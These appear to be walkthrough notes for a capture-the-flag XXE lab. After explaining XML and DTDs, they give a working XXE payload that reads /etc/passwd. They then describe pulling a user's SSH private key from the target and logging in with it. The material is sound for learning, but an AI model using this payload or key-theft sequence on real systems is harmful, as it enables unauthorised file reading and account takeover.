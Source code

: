 # XXE


Task 2:	eXtensible Markup Language
----------------------------------------

What is XML? eXtensible Markup Language

It is case sensitive

Task 3:	DTD
----------------------------------------

DTD Document Type Definition
A DTD defines the structure and the legal elements and attributes of an XML document.

Files have extension .dtd

Example:

```DTD
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

Task 4:		XXE Payload
----------------------------------------

```XML
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

[<img src="images/xxe.png"
  style="width: 800px;"/>](images/xxe.png)



Task 5:		Exploiting
----------------------------------------

Name of user in the /etc/passwd:	<b>Falcon</b>

SSH key can be found in /home/falcon/.ssh/id_rsa

First 18 characters of SSH key:		<b>MIIEogIBAAKCAQEA7b</b>

copy private key locally and save as something like id_rsa

`chmod 600 id_rsa`

`ssh -i id_rsa falcon@ip_address`
